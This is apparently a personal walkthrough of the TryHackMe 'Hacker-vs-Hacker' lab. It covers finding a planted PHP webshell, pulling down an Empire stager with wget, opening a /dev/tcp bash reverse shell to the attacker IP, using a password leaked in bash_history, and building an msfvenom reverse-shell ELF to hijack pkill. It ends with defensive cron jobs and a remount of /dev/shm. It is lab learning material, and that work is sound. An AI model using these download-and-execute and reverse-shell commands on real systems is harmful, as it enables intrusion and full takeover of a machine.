 # Hacker-vs-Hacker Helped-Through

Name: Hacker-vs-Hacker
Date:  28/1/23
Difficulty:  Easy
Goals:  
- Research Countermeasures
- Improve the counter measures
- Invent or research booby trapping 
- Get DFIR theory-crafting 
Learnt:
- Practiced Empire
- killing pty /dev/pts prevents some privilege escalation
Beyond Root:
- Booby traps for baTTLegrounds
- Better \*-shells for persistence - not the shell code just location, naming, parametres

![1080](thememes.png)

The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

## Recon


The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Hacker-vs-Hacker/Screenshots/ping.png)

THM machine and the comments on the webpages
![](comments.png)

## Exploit

Testing the file upload
![](testingthefileupload.png)
My guess is that the "hacker" is calling out poorly coded php 

cvs directory listing is disabled.
![](possibledirs.png)

Upload test.pdf
![](hmm.png)
Confirmed suspicions, Al mentions that [Conficker](https://en.wikipedia.org/wiki/Conficker) a computer worm patch the vulnerability after getting RCE to prevent other from exploiting the box after it gained access.

The most interesting part is actually the idea that you have to change you methodology for looking for a specifics that a related to hacking. So fuzzing for the webshell is actually considering how he bypassed the original. And although not staeted on stream this adjustment is:
- Hacker has exploited the file upload form, pictured above.
- This code only checks for if there is has a .pdf in the string with [strpos](https://www.php.net/manual/en/function.strpos.php)
-  So with it being an apache web server the deduction need to be made is that it is exploited either with a file that file.pdf.`$php` or file.`$php`.pdf with `$php` potential being various varients

![](ffufforthewin.png)
```bash
ffuf -u http://10.10.72.190/cvs/FUZZ.FUZZ1.FUZZ2 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ1 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ2 -w webshell-names.txt:FUZZ
```


The capabilities of the attacker can be accessed by the naming of the both the file and the parametre used for code execution, from a pure DFIR perspective this not complex, but also not complex enough to be APT-level. The reason this rather benign points is here is that there are ways to improve this that would indicate the motive:
- If it was a randomized file name it would be harder to find for other APTs
- If the parametre is a randomized string, even if the file was found or leaked out some how at another part of the attack chain traces it code excution for other would be prevented  - as cmd is the parametre
- If it was false flagging this is a fake attack chain laid to for whatever reason present because of something related to overall objectives such that it is required to spend time to false flag
	- Potentially being caught to thow of purple team
	- Misleading purple into not considering more complex forms of persistence


I wanted to go a bit more try hard and use Powershell-Empire as my brain was clouded by covid 
```bash
http://10.10.46.245/cvs/shell.pdf.php?cmd=wget%20http://10.11.3.193/empire.sh

http://10.10.46.245/cvs/shell.pdf.php?cmd=chmod%20+x%20empire.sh

http://10.10.46.245/cvs/shell.pdf.php?cmd=bash%20empire.sh
```

![](hellothere.png)


## Foothold

For Two is one and one is none:
```powershell
(Empire: 1B17TKZC) > shell "bash -c 'exec bash -i &>/dev/tcp/10.11.3.193/1338 <&1' &"
```

![](oneplusone.png)
Counter measure it kills any `python -c 'import pty;pty.spawn("/bin/bash")'` but allows for execution from /dev/shm.
![](makeitnotsothatdevshmisexec.png)

Quick look in the home directory of the lachan user
![](lachanuser.png)

and in his bash_history
![](interstinghistory.png)

```bash
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123"
```

` lachlan : thisistheway123 `, but Al did not check the cron

![](interestingpersistence.png)

## PrivEsc

We cannot use sudo as we require a tty. But also a very important detail I skimmed over  as I started researching sudo. Al wants to go fast, but second guessing that as the dirty hack solution [krobe got me covered](https://medium.com/@krobesec/hacker-vs-hacker-tryhackme-writeup-1518f88a2c27). The only binary that is hijackable in the path is `pkill`

- Go back to noting each finding never skimp on notes. it is in the picture above.

Just hijack with a msfvenom shell called pkill in the /home/lachlan/bin
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -f ELF > pkill
```

Then we can just use `scp`
```bash
scp 'pkill' lachlan@10.10.46.245:/home/lachlan/bin/pkill
```
Then the quick chmod o'clock with +x
```bash
thisistheway123
chmod +x bin/pkill
```

![](root.png)

## Beyond Root

I really want to make a couple of machines with this kind of path with these kinds of obstacles.

```bash
apt install fail2ban
```

[Change /dev/shm to not allow execution](https://secscan.acron.pl/centos7/1/1/17)
```bash
mount -o remount,noexec,rw,nosuid,relatime /dev/shm
```

Remove the webshells and its process Holo or a HTB ctf did this but did not kill the process.
```bash
* * * * * * root /bin/sleep 10 && for f in `/bin/ls /var/www/html | grep -v .html`; do p=$(ps -aux | grep $f | awk '{print $2}') && kill $p && rm /var/www/html/$f; done
```

Kill ptys
```bash
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill -9 -t pts/$f; done
```